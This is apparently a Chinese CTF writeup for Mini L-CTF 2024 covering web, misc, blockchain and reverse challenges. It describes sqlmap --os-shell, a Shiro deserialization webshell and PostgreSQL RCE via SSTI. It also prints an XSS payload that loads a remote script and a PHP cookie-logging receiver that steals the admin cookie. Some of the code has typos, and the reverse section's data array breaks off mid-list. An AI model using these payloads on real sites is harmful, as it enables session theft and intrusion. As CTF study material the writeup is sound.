

# Mini L-CTF 2024 Writeup By xt

---
~~被0x的爷打哭了😭~~
*刚入门甚至没入门的小白(🥺)，==写的不对的地方请师傅们指正👀==*

## web - Snooker King

**前端明文泄露**，直接搜`miniLCTF`😅



## web - SmartPark

第一次接触go语言，做的绕了，访问/没有有用信息，dirsearch扫目录，发现`/swagger/index.html`, 存在**swagger未授权访问漏洞**，然后注册（用户名密码有限制），登录拿Authorization，访问`/backup`拿源码，然后代码审计，~~吐槽一下（就小吐槽下，师傅们跳过⬇️，(虽然做题跟这个路由没关系~~


.png)


~~1，懵逼，第二次上线之后改了🫵~~

~~2，go语言正则两边加/，想了两天这个正则🥺）~~

审计发现login路由

.png)

password正则是可见字符，

.png)

查询函数存在**sql注入**，（ssti请看另一道，这里我只利用了sql注入）sqlmap梭哈（时间盲注，数据库查烂了没发现flag），最后用参数`--os-shell`拿到shell，查系统文件是否有flag，因为是时间盲注，出数据比较慢，而除username，password，的两个数据有时间限制，所以这里使用正则出数据快，用awk正则查到根目录有flag文件，


flag文件提示flag在env中，`echo $FLAG`获得flag

.png)

## web - Jvav Guy

打开发现若以系统，猜测**cms漏洞**，信息搜集发现Springboot存在**heapdump泄露漏洞**，shiro的**java反序列化漏洞**，先扫目录找到heapdump并下载，搜集heapdump的利用工具找出shirokey, 利用shiro的反序列化漏洞利用工具(我找到的都需要java8环境，无赖降java版本)梭哈写🐎，蚁剑连接找出flag

.png)

## web - Msgbox

xss, 有csp, CDN可绕过，GitHub建库写攻击脚本即可，flag的cookie没开httponly, 直接利用js获取cookie, 发消息给admin：

```
<script src="https://cdn.jsdelivr.net/gh/xiaotian2023/CDN@2.0.0/js/xss.js"></script>
```
发完访问`/report`
xss.js内容（我这里用了vps，没有可以用花生壳的内网穿透）也可以构造ajax请求将cookie发到自己账户

.png)

cookie.php内容：

```
<?php
$cookie = $GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
```

cookie.txt文件获取flag


## web - SmartPark-Revenge

**ssti+sql注入**，漏洞在test路由，

.png)

请求体全部放入模板，`{{.}}`可获取结构体FastQuery数据

.png)

函数Dbcall是此结构体方法`{{.Dbcall "参数"}}`可调用此函数，由于数据库用户为超级用户可以直接rce (CVE-2019-9193 PostgreSQL) `echo $FLAG`即可，对SmartPark应该同样适用

.png)

## misc - Laugning-Knife-No-Running

浏览器抓包发现与后端交互规则，get请求`/restart`开始跑步，post请求`/location`上报位置，get: `/checkpoints` 获取打卡点，get: `/status` 获取状态，根据限制写脚本自动化跑步，大体逻辑是从第一个打卡点开始，直线跑到第二个打卡点，再跑到第三个打卡点，再跑到打一个打卡点，循环跑圈直至跑出flag
exp:

```
import requests
import time
from math import radians, sin, cos, sqrt, atan2, asin, atan, degrees

# 服务器的URL
url = "http://localhost:54663"

# 请求头
headers = {
    "Accept": "application/json",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Cache-Control": "no-cache",
    "Connection": "keep-alive",
    "Cookie": "Phpstorm-3a1aa662=4da2e74e-381c-4043-b1fa-4b10c0901b4a",
    "Host": "localhost:57616",
    "User-Agent": "Mozilla/5.0 (Linux; Android 4.4.2; Nexus 4 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.114 Mobile Safari/537.36"
}

# 计算两点之间的距离
def calculatedistance(lat1, lon1, lat2, lon2):
    R = 6371.0  # 地球半径，单位为公里

    lat1 = radians(lat1)
    lon1 = radians(lon1)
    lat2 = radians(lat2)
    lon2 = radians(lon2)

    dlat = lat2 - lat1
    dlon = lon2 - lon1

    a = sin(dlat / 2) ** 2 + cos(lat1) * cos(lat2) * sin(dlon / 2) ** 2
    c = 2 * atan2(sqrt(a), sqrt(1 - a))

    distance = R * c

    return distance

def calculatebearing(lat1, lon1, lat2, lon2):
    lat1 = radians(lat1)
    lon1 = radians(lon1)
    lat2 = radians(lat2)
    lon2 = radians(lon2)

    dlon = lon2 - lon1

    y = sin(dlon) * cos(lat2)
    x = cos(lat1) * sin(lat2) - sin(lat1) * cos(lat2) * cos(dlon)

    bearing = atan2(y, x)
    bearing = (degrees(bearing) + 360) % 360

    return bearing

def calculatenewcoordinates(lat1, lon1, distance, bearing):
    R = 6371.0  # 地球半径，单位为公里

    lat1 = radians(lat1)
    lon1 = radians(lon1)
    bearing = radians(bearing)

    lat2 = asin(sin(lat1) * cos(distance / R) + cos(lat1) * sin(distance / R) * cos(bearing))
    lon2 = lon1 + atan2(sin(bearing) * sin(distance / R) * cos(lat1), cos(distance / R) - sin(lat1) * sin(lat2))

    lat2 = degrees(lat2)
    lon2 = degrees(lon2)

    return lat2, lon2

# 移动到下一个点
def movetonextpoint(start, end):
    lat1, lon1 = start
    lat2, lon2 = end
    distance = calculatedistance(lat1, lon1, lat2, lon2)
    speed = 10 # 速度
    steps = int(distance / (98/1000))  # 次数
    print("次数"+str(speed))
    for  in range(steps+1):
        if( == steps):
            getstatus()
            # print(lat1, lon1)
            # print(lat2, lon2)
            reportlocation(lat2, lon2)
        else:
            getstatus()
            # print(lat1, lon1)
            lat1, lon1 = calculatenewcoordinates(lat1, lon1, 98/1000, calculatebearing(lat1, lon1, lat2, lon2))
            # print(lat1, lon1)
            # print(calculatedistance(lat1, lon1, lat2, lon2))
            # length = length + 90/1000
            reportlocation(lat1, lon1)  # 上报位置
            # time.sleep(1)


# 获取状态
def getstatus():
    response = requests.get(url + "/status", headers=headers)
    data = response.json()
    print(f"Status: {data}")


# 获取检查点
def getcheckpoints():
    response = requests.get(url + "/checkpoints", headers=headers)
    data = response.json()
    print(f"Checkpoints: {data}")
    return data["checkpoints"]


# 上报位置
def reportlocation(lat, lon):
    data = {"lat": lat, "lon": lon}
    response = requests.post(url + "/location", headers=headers, json=data)
    print(f"Report location: {response.json()}")
    return response.text


def main():
    # 获取检查点
    checkpoints = getcheckpoints()
    print(f"Checkpoints: {checkpoints}")

    # 从第一个检查点开始
    currentlocation = checkpoints[0]

    # 遍历所有检查点
    while True:
        for checkpoint in checkpoints[1:]:
            print("run to next checkpoint")
            # 按照10m/s的速度移动到下一个检查点
            movetonextpoint((currentlocation["lat"], currentlocation["lon"]),
                               (checkpoint["lat"], checkpoint["lon"])
                            )
            currentlocation = checkpoint
        print("run to next checkpoint")

        movetonextpoint((currentlocation["lat"], currentlocation["lon"]),
                           (checkpoints[0]["lat"], checkpoints[0]["lon"])
                           )
        currentlocation = checkpoints[0]

if name == "main":
    # 启动程序
    q=requests.get(url + "/restart", headers=headers)
    print(q.text)
    main()
```

.png)

## Blockchain - dps1ove

unsigned int溢出
dps初始值999，调用函数减去一个比999大的数，因为是uint16类型，dps不会变为负数，而会变为一个很大的数，之后再调用函数减去一个数使得dps为1000即可，最后调用insolved

## Reverse - Bigbanana

挺套的一道题，首先是弄清执行逻辑

指针指向的值

<1> 循环 246                                                          //存数据

<2> 循环 247 248 243 17                                     //print（也就是看到的第一行输出）

<3> 一次 16 16 248 247                                       //读入输入前两字符mi

<4> 循环 244 1 244 243 242 254 240 16 248   //逐字符验证flag

因为char类型，超8bit会截断所以需要模256

exp:

```
f = [246, 0, 0, 0, 108, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,71, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 13, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 5, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 19, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 10, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,70, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 2, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 9, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 9, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 1, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,74, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 21, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 18, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 19, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,8, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 15, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 11, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 70, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 3, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,3, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 20, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 14, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 18, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 70, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,20, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 9, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 0, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 70, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 2, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,3, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 21, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 21, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 3, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 20, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,22, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 2, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 20, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 7, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,14, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 4, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 70, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,10, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 10, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 15, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 17, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 70, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,19, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 9, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 31, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 70, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 74, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,31, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 10, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 18, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 5, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 3, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,20, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 20, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 9, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 5, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 8, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,15, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 1, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 7, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 10, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,0, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 14, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 18, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,70, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 20, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 17, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 21, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,8, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 7, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 70, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 19, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 9, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,31, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 0, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 47, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,247, 0, 0, 0, 248, 0, 0, 0, 243, 0,0, 0, 17, 0, 0, 0, 247, 0, 0, 0,248, 0, 0, 0, 243, 0, 0, 0, 17, 0,0, 0, 247, 0, 0, 0, 248, 0, 0, 0,243, 0, 0, 0, 17, 0, 0, 0, 247, 0,0, 0, 248, 0, 0, 0, 243, 0, 0, 0,17, 0, 0, 0, 247, 0, 0, 0, 248, 0,0, 0, 243, 0, 0, 0, 17, 0, 0, 0,16, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 247, 0, 0, 0, 244, 0, 0, 0,77, 105, 78, 105, 1, 0, 0, 0, 76, 45,99, 116, 244, 0, 0, 0, 0, 0, 0, 0,243, 0, 0, 0, 242, 0, 0, 0, 15, 68,45, 29, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 22, 0, 0, 0,1, 0, 0, 0, 33, 0, 0, 0, 244, 0,0, 0, 20, 69, 17, 0, 243, 0, 0, 0,242, 0, 0, 0, 80, 114, 116, 116, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 33, 0, 0, 0, 1, 0, 0, 0,44, 0, 0, 0, 244, 0, 0, 0, 40, 138,34, 0, 243, 0, 0, 0, 242, 0, 0, 0,77, 138, 34, 0, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 44, 0,0, 0, 1, 0, 0, 0, 11, 0, 0, 0,244, 0, 0, 0, 60, 207, 51, 0, 243, 0,0, 0, 242, 0, 0, 0, 170, 207, 51, 0,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 11, 0, 0, 0, 1, 0,0, 0, 22, 0, 0, 0, 244, 0, 0, 0,80, 20, 69, 0, 243, 0, 0, 0, 242, 0,0, 0, 203, 20, 69, 0, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,22, 0, 0, 0, 1, 0, 0, 0, 33, 0,0, 0, 244, 0, 0, 0, 100, 89, 86, 0,243, 0, 0, 0, 242, 0, 0, 0, 102, 89,86, 0, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 33, 0, 0, 0,1, 0, 0, 0, 44, 0, 0, 0, 244, 0,0, 0, 120, 158, 103, 0, 243, 0, 0, 0,242, 0, 0, 0, 188, 159, 103, 0, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 44, 0, 0, 0, 1, 0, 0, 0,11, 0, 0, 0, 244, 0, 0, 0, 140, 227,120, 0, 243, 0, 0, 0, 242, 0, 0, 0,204, 228, 120, 0, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 11, 0,0, 0, 1, 0, 0, 0, 22, 0, 0, 0,244, 0, 0, 0, 160, 40, 138, 0, 243, 0,0, 0, 242, 0, 0, 0, 73, 41, 138, 0,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 22, 0, 0, 0, 1, 0,0, 0, 33, 0, 0, 0, 244, 0, 0, 0,180, 109, 155, 0, 243, 0, 0, 0, 242, 0,0, 0, 200, 110, 155, 0, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,33, 0, 0, 0, 1, 0, 0, 0, 44, 0,0, 0, 244, 0, 0, 0, 200, 178, 172, 0,243, 0, 0, 0, 242, 0, 0, 0, 224, 179,172, 0, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 44, 0, 0, 0,1, 0, 0, 0, 11, 0, 0, 0, 244, 0,0, 0, 220, 247, 189, 0, 243, 0, 0, 0,242, 0, 0, 0, 246, 248, 189, 0, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 11, 0, 0, 0, 1, 0, 0, 0,22, 0, 0, 0, 244, 0, 0, 0, 240, 60,207, 0, 243, 0, 0, 0, 242, 0, 0, 0,34, 61, 207, 0, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 22, 0,0, 0, 1, 0, 0, 0, 33, 0, 0, 0,244, 0, 0, 0, 4, 130, 224, 0, 243, 0,0, 0, 242, 0, 0, 0, 235, 130, 224, 0,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 33, 0, 0, 0, 1, 0,0, 0, 44, 0, 0, 0, 244, 0, 0, 0,24, 199, 241, 0, 243, 0, 0, 0, 242, 0,0, 0, 69, 199, 241, 0, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,44, 0, 0, 0, 1, 0, 0, 0, 11, 0,0, 0, 244, 0, 0, 0, 44, 12, 3, 1,243, 0, 0, 0, 242, 0, 0, 0, 156, 12,3, 1, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 11, 0, 0, 0,1, 0, 0, 0, 22, 0, 0, 0, 244, 0,0, 0, 64, 81, 20, 1, 243, 0, 0, 0,242, 0, 0, 0, 142, 81, 20, 1, 254, 0,0, 0, 102, 